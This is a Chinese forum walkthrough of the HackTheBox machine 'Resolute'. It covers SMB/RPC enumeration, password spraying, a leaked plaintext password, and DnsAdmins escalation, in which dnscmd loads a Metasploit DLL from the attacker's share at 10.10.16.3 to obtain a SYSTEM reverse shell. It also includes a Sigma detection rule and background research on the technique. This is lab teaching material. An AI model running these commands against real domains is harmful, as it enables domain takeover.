

# 域渗透实战之Resolute - 先知社区

域渗透实战之Resolute

- - -

# 信息收集

## 端口扫描

使用nmap去扫描端口，发现存在53、125、139、445等端口开放。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114174904-0c2e12fe-82d3-1.png)

接着去收集它的版本。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114174916-12cf31d8-82d3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114174925-1853bd86-82d3-1.png)

## TCP445未授权

使用smbmap使用置空密码链接，未获取到有用的信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114174933-1d2b231c-82d3-1.png)

## RPC未授权访问

使用空身份验证连接到 RPC  
.  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231114174944-237e914a-82d3-1.png)

# 漏洞利用

## 枚举 SMB 用户

使用 enumdomusers 列出用户，然后查询0x1f4的用户信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114174953-294269e4-82d3-1.png)

## 提取存储的密码

然后获取所有用户的更少信息：querydispinfo:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175003-2f360752-82d3-1.png)

## 密码喷射

使用crackmapexec爆破SMB 的用户和密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175013-34f1ea9e-82d3-1.png)

用之前enum4linux收集到一份用户名单，然后进行爆破。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175022-3a837f36-82d3-1.png)

## Winrm连接

使用winrm进行连接，成功连接，获取第一个shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175031-3f7e8f44-82d3-1.png)

# 权限提升

## 枚举隐藏文件

翻找了 Melanie 的主目录没有找到有用的东西，进入了文件系统根目录：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175041-45b36696-82d3-1.png)

发现运行了程序，使用这个命令来进行查询。  
Get-ChildItemgci-forcels -a  
查看日志文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175050-4b094f8e-82d3-1.png)

## 提取 Ryan 密码

发现一个密码  
ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\\backups ryan Serv3r4Admin4cc123!  
发现ryan这个用户 实际上不在远程管理用户组中。但他在承包商中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175059-50b7670e-82d3-1.png)

使用crackmapexec检查是否可以利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175206-7873eea2-82d3-1.png)

使用crackmapexec检查是否可以使用 Evil-WinRM连接，发现可以通过该工具获取shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175213-7cd49668-82d3-1.png)

## Evil-WinRM连接

使用 Evil-WinRM 以 ryan 用户身份登录  
登录之后，在桌面发现一个note.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175221-816fc044-82d3-1.png)

## 枚举组

继续枚举计算机上的组以及这些后续组的用户。  
发现登录的 ryan 用户是 DnsAdmins 组的一部分

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175231-871e2fee-82d3-1.png)

需要运行三个命令：

1.  将服务器级插件设置为rev.dll我的共享。
2.  停止 DNS 服务器。
3.  启动 DNS 服务器。  
    \## msf生成dll木马  
    使用 Msf 制作了一个 dll 木马

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175238-8b93c7d2-82d3-1.png)

## 传输dll木马

使用 smbserver.py将其发送到目标计算机。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175248-916457bc-82d3-1.png)

## 执行dll木马

因为我们是Dnsadmin，可以轻松执行任意文件，还可以重新启动dns服务。  
dnscmd.exe /config /serverlevelplugindll \\10.10.16.3\\s\\rev.dll  
dnscmd /config /serverlevelplugindll \\10.10.16.3\\s\\rev.dll

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175257-968b7b12-82d3-1.png)

cmd.exe /c dnscmd localhost /config /serverlevelplugindll \\10.10.16.3\\s\\rev.dll  
重新启动dns服务  
接着进行启动dns服务。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175305-9b7d17a2-82d3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175314-a0d2d89a-82d3-1.png)

## 上传dll文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175323-a674a620-82d3-1.png)

监听之后，成功收到shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175331-ab5def16-82d3-1.png)

## 获取root.txt

并成功获取shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175340-b06decf4-82d3-1.png)

[https://www.hackingarticles.in/resolute-hackthebox-walkthrough/](https://www.hackingarticles.in/resolute-hackthebox-walkthrough/)

# 总结：

## Dnscmd

### 简介

用于管理 DNS 服务器的命令行界面  
路径：  
● C:\\Windows\\System32\\Dnscmd.exe  
● C:\\Windows\\SysWOW64\\Dnscmd.exe  
检测：  
● ：process\_creation\_dns\_serverlevelplugindll.yml  
● ：Dnscmd.exe 从 UNC/任意路径加载 dll

```plain
title: DNS ServerLevelPluginDll Install
id: f63b56ee-3f79-4b8a-97fb-5c48007e8573
related:
    - id: e61e8a88-59a9-451c-874e-70fcc9740d67
      type: derived
status: experimental
description: Detects the installation of a plugin DLL via ServerLevelPluginDll parameter in Registry, which can be used to execute code in context of the DNS server
    (restart required)
references:
    - https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
date: 2017/05/08
modified: 2021/09/12
author: Florian Roth
tags:
    - attack.defense_evasion
    - attack.t1073 # an old one
    - attack.t1574.002
    - attack.t1112
logsource:
    category: process_creation
    product: windows
detection:
    dnsadmin:
        Image|endswith: '\dnscmd.exe'
        CommandLine|contains|all: 
            - '/config'
            - '/serverlevelplugindll'
    condition: dnsadmin
falsepositives:
    - unknown
level: high
fields:
    - EventID
    - CommandLine
    - ParentCommandLine
    - Image
    - User
    - TargetObject
```

### 执行：

添加特制的 DLL 作为 DNS 服务的插件。此命令必须由至少是 DnsAdmins 组成员的用户在 DC 上运行。  
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\\dll\\wtf.dll  
用例：远程注入 dll 到 dns 服务器  
所需权限：DNS 管理员  
操作系统：Windows 服务器  
MITRE ATT&CK®：T1543.003：Windows 服务  
原文链接：[https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)

## DNS 服务器管理协议基础知识

RPC 之上的管理协议层，出于该协议的目的，可以将其分层在 TCP 或命名管道之上。如果您对协议或其实现感兴趣，可以在域控制器中的 c:\\windows\\system32\\dns.exe 下找到它。其 RPC 接口 UUID 为 50ABC2A4–574D-40B3–9D66-EE4FD5FBA076，并使用 \\PIPE\\DNSSERVER 命名管道进行传输。  
DNS 服务器作为域控制器上的服务运行。可以通过运行 dnsmgmt.msc 并连接到 AD DNS 服务器（通常是域控制器）来访问管理界面。它允许用户配置 DNS 区域、查找、缓存、转发和日志记录等。这个“层次结构”中的几个对象是安全的——DNS 服务器对象（不是计算机帐户）、区域对象和记录。在本例中，我们对服务器对象感兴趣，其 ACL 在全新安装时应如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175355-b978a71c-82d3-1.png)

## DNS 服务器对象的默认 ACL

默认情况下，只有 DnsAdmins、域管理员、企业管理员、管理员和企业域控制器拥有对此对象的写入访问权限。值得注意的是，从攻击者的角度来看，如果我们是除 DnsAdmins 之外的每个组的成员，那么我们就已经拥有该域。那么，让我们看看如果我们拥有一个 DnsAdmin 可以做什么。

### 寻找 PDF

这就是协议规范为我们提供帮助的地方。  
第3.1.4节：消息处理事件和排序规则，基本上详细介绍了服务器需要支持的所有操作。第一个是R\_DnssrvOperation，它包含一个pszOperation参数，该参数确定服务器执行的操作。在滚动可能的 pszOperation 值的巨大列表时，我们看到：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175422-c93b99f2-82d3-1.png)

是的，我们可以告诉服务器只加载我们选择的 DLL！惊人的！在搜索 ServerLevelPluginDll 的规范后，我们发现了以下有用的信息：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175429-cddbf38a-82d3-1.png)

看起来服务器甚至没有对此操作中指定的 dll 路径进行任何验证。在开始实现这个之前，我想以前一定有人挖过这个。谷歌搜索 ServerLevelPluginDll 没有出现任何此类问题，但它确实弹出了有用的 dnscmd 命令行工具，这是我以前不知道的。  
幸运的是，dnscmd 已经实现了我们需要的一切。快速浏览一下它的帮助消息，再浏览一下[https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd，](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd%EF%BC%8C)  
我们可以看到以下选项：  
dnscmd.exe /config /serverlevelplugindll \\path\\to\\dll  
首先，尝试以弱域用户身份运行它，对 DNS 服务器对象没有特殊权限（通用读取除外，该权限授予 Windows 2000 之前的兼容访问组的所有成员，默认情况下包含域用户组)，该命令失败并显示拒绝访问消息。如果我们授予弱用户对服务器对象的写访问权限，该命令将不再失败。这意味着 DnsAdmins 的成员可以成功运行此命令。  
仍然懒得不使用 IDA，尝试在与 DnsAdmins 成员一起运行的域计算机上运行它，同时在我们的 DC 上运行进程监视器和进程资源管理器，我们看到没有 DLL 被加载到 dns.exe 的地址空间中，正如预期的那样。但是，我们确实看到以下注册表项现在填充了我们发送的路径：  
HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\services\\DNS\\Parameters\\ServerLevelPluginDll。  
伟大的。现在，出于测试目的，我们重新启动 DNS 服务器服务。哎呀——它无法启动，清除注册表项值可以让它启动。显然它需要我们的 DLL 提供更多的东西。是时候打开 IDA 了。  
在这种情况下，有多种方法可以快速实现我们寻求逆向的功能——搜索相关字符串和搜索相关 API 通常是最简单、最快的。在我们的例子中，遍历 LoadLibraryW 或 GetProcAddress 的所有外部引用可以满足我们的需要 - 遍历 LoadLibraryW 的 DLL 函数的代码以及调用它的函数，我们发现路径上根本没有执行任何验证提供给 ServerLevelPluginDll。  
我们遇到的障碍确实是唯一的 - 如果 DLL 无法加载，或者它不包含 DnsPluginInitialize、DnsPluginCleanup 或 DnsPluginQuery 导出之一，则服务将无法启动。我们还需要确保我们的导出全部返回0（成功返回值），否则也可能导致服务失败。  
负责加载DLL的函数的伪代码大致如下：

```plain
HMODULE hLib；
if (g_pluginPath && *g_pluginPath) { 
  hLib = LoadLibraryW(g_pluginPath); 
  g_hndPlugin = hLib; 
  if (!hLib) {...记录并返回错误...}  g_dllDnsPluginInitialize = GetProcAddress(hLib, "DnsPluginInitialize"); 
  if (!g_dllDnsPluginInitialize) {...记录并返回错误...} 
  g_dllDnsPluginQuery = GetProcAddress(hLib, "DnsPluginQuery") 
  if (!g_dllDnsPluginQuery) {...记录并返回错误...} 
  g_dllDnsPluginCleanup = GetProcAddress(hLib, "DnsPluginCleanup") 
  if (!g_dllDnsPluginCleanup) {...记录并返回错误...}  如果（g_dllDnsPluginInitialize）{ 
    g_dllDnsPluginInitialize（pCallback1，pCallback2）; 
  } 
}
```

下面是一个快速 PoC，用于演示此类 DLL 的代码在 Visual Studio 2015 下的外观：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175440-d468d40c-82d3-1.png)

我们的插件 dll 的示例代码  
编译指示已就位，可将默认导出名称修改为我们想要的名称。为了验证我们的导出是否良好，我们可以使用 dumpbin /exports path\\to\\dll。  
现在我们尝试使用新的 dll 运行 dnscmd，瞧，它成功了！我们需要的只是将我们的 dll 放在可由域控制器的计算机帐户之一访问的网络路径上（dns.exe 在 SYSTEM 下运行）（Everyone SID 的读取访问权限应该可以完成这项工作），然后我们就可以运行代码作为域控制器上的 SYSTEM，从而控制该域。  
虽然这表明如果您是 DnsAdmins 的成员，则可以接管域，但它不仅限于此 — 成功实现此技巧所需的只是一个对 DNS 服务器对象具有写入权限的帐户。根据我的经验，这些对象的 ACL 通常不像域管理员（或受 AdminSDHolder 保护的类似组）的 ACL 那样保持干净或受监控，因此为小范围的域特权提升提供了很好的机会。  
正如规范中所述，这应该适用于所有最新的 Windows Server 版本：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231114175450-da317fd8-82d3-1.png)

ServerLevelPluginDll 跨操作系统版本支持  
已就此问题联系了 Microsoft 的 MSRC，并表示将通过基本上仅允许 DC 管理员更改 ServerLevelPluginDll 注册表项来解决此问题，并且可以在未来版本中关闭此功能。
